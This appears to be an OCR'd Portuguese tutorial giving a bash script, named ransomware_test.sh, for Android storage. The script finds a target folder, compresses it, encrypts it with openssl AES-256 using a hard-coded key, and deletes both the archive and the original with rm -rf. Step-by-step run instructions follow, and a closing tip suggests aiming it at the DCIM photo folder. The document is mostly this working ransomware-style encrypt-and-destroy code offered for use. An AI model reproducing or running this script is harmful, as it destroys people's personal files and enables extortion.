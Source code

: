 Script para Localizar Pasta Visível ou Oculta e Executar o Processo

1. Abra o arquivo no nano:

nano ransomware_test.sh


2. Substitua o conteúdo com o seguinte código:
_____________________________
#!/bin/bash

# Nomes possíveis da pasta (visível ou oculta)
VISIBLE_FOLDER="teste"
HIDDEN_FOLDER=".teste"

# Usar o comando find para procurar a pasta visível ou oculta no sistema
VISIBLE_TARGET=$(find /storage/emulated/0 -type d -name "$VISIBLE_FOLDER" 2>/dev/null)
HIDDEN_TARGET=$(find /storage/emulated/0 -type d -name "$HIDDEN_FOLDER" 2>/dev/null)

# Verifica qual das pastas foi encontrada
if [ -n "$VISIBLE_TARGET" ]; then
    TARGET_FOLDER="$VISIBLE_TARGET"
    echo "Pasta visível encontrada em: $TARGET_FOLDER"
elif [ -n "$HIDDEN_TARGET" ]; then
    TARGET_FOLDER="$HIDDEN_TARGET"
    echo "Pasta oculta encontrada em: $TARGET_FOLDER"
else
    echo "Nenhuma pasta 'teste' ou '.teste' encontrada!"
    exit 1
fi

# Nome do arquivo .tar.gz
ARCHIVE_PATH="/storage/emulated/0/$(basename "$TARGET_FOLDER").tar.gz"

# Compactar a pasta encontrada
tar -czf "$ARCHIVE_PATH" -C "$(dirname "$TARGET_FOLDER")" "$(basename "$TARGET_FOLDER")"

# Verifica se o arquivo .tar.gz foi criado com sucesso
if [ ! -f "$ARCHIVE_PATH" ]; then
    echo "Erro ao compactar a pasta $TARGET_FOLDER"
    exit 1
fi

# Criptografar o arquivo .tar.gz
openssl enc -aes-256-cbc -salt -in "$ARCHIVE_PATH" -out "$ARCHIVE_PATH.enc" -k "@kali24"

# Verifica se a criptografia foi bem-sucedida
if [ $? -eq 0 ]; then
    # Apaga o arquivo compactado original após criptografar
    rm "$ARCHIVE_PATH"
    echo "Pasta $TARGET_FOLDER criptografada com sucesso!"

    # Deletar a pasta original e seu conteúdo
    rm -rf "$TARGET_FOLDER"
    if [ $? -eq 0 ]; then
        echo "Pasta original $TARGET_FOLDER deletada com sucesso!"
    else
        echo "Erro ao deletar a pasta $TARGET_FOLDER!"
    fi
else
    echo "Erro ao criptografar a pasta $TARGET_FOLDER"
fi
-----------------------------
3. Salve e saia do nano:

Pressione CTRL + O para salvar.

Pressione CTRL + X para sair.



4. Dê permissão de execução ao script (se necessário):

chmod +x ransomware_test.sh


5. Execute o script:

./ransomware_test.sh



Explicação:

O script tenta encontrar primeiro a pasta visível teste e, caso ela não exista, tenta localizar a pasta oculta .teste.

Se uma das pastas for encontrada, o processo de compactação, criptografia e exclusão será realizado.

Se nenhuma pasta for encontrada, o script exibirá uma mensagem de erro e encerrará.


Teste:

Crie duas pastas (uma visível e uma oculta) e execute o script para ver se ele lida corretamente com ambas as situações.

O script deve localizar a pasta, compactá-la, criptografá-la e, em seguida, deletar a pasta original, seja ela visível ou oculta.

Você pode mudar o nome da pasta,como escolher a pasta DCIM,que é a pasta padrão para armazenamento de fotos e vídeos em dispositivos Android.